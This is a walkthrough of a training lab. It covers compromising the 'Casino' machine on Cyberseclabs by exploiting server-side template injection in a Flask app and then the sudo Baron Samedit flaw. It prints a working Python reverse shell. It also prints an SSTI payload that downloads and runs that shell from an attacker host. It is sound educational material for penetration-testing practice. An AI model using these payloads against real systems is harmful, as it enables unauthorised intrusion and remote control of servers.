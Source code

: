 In this walkthrough, we'll go over one of the machines from the challenge labs on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).

![Casino IP](casinoIP.png)

Let's start the scanning process with nmap:
```bash
nmap -sTV -p- -n 172.31.3.7
```
We'll see that there are three ports open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-28 20:57 EDT
Nmap scan report for 172.31.3.7
Host is up (0.023s latency).

PORT     STATE    SERVICE    VERSION
22/tcp   open     ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:5c:51:eb:90:a2:79:74:42:3b:af:8b:64:66:2f:a2 (RSA)
|   256 d5:76:0c:92:ef:e1:83:9e:37:63:46:00:eb:9d:7b:05 (ECDSA)
|_  256 cd:4f:f8:48:9a:c7:38:85:a2:05:9c:3b:44:20:01:8c (ED25519)
80/tcp   open     http       Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: River - Index
9000/tcp filtered cslistener
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.07 seconds

```
It looks like a casino platform is being served on port 80:

![Casino Index Page](casino-index-html.png)

While browsing, on the team page, we can see that one of the team members is a Flask developer:

![Casino Team Page](casino-teams.png)

After seeing this, I can check for a potential SSTI (Server Side Template Injection) vulnerability. I followed the process from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
Now, in the search box we can do the following tests:
![SSTI Steps](casino-SSTI-steps.png)

1. ![Test1](casino-SSTI-test-1.png)

2. ![Test2](casino-SSTI-test-2.png)

3. ![Test3](casino-SSTI-test-3.png)

4. ![Test4](casino-SSTI-id.png)

5. ![Test5](casino-SSTI-passwd.png)

6. ![Test6](casino-SSTI-ls.png)

7. ![Test7](casino-SSTI-python3.png)
    
From, our strategy could be creating a Python file with a reverse shell and upload it to the server, then run it within the same script. The Python file looks like this and we save it as ***revshell.txt***:
```python
#!/usr/bin/python3

import socket
import subprocess
import os
import pty

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("YourIPAddress", 5555)) # Don't forget to put your IP Address here.
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

Let's start a Python server to host this file with `sudo python3 -m http.server 80`
Now, by using the following script we can upload and run the Python file `{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('wget http://10.10.0.18/revshell.txt -O /tmp/revshell.py;python3 /tmp/revshell.py').read() }}`

![Casino Foothold](casino-SSTI-revshell.png)

In terms of the privilege escalation, I look at the sudo version and OS distribution:

![Casino OS/Sudo Version](casino-OS-release.png)

At this point, we can check if this machine is vulnerable to ***CVE-2021-3156 (Sudo Baron Samedit)*** vulnerability. We can use the following repo [Sudo Baron Samedit](https://github.com/worawit/CVE-2021-3156)
From this repo, we can use ***exploit_nss.py*** to see if we can get a root shell:

![Casino Root](casino-root.png)

And we successfully gain the root level privileges.
I hope you enjoyed this walkthrough..

Thank you for reading...

[<= Go Back to Cyberseclabs Walkthrouhgs](CyberseclabsWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
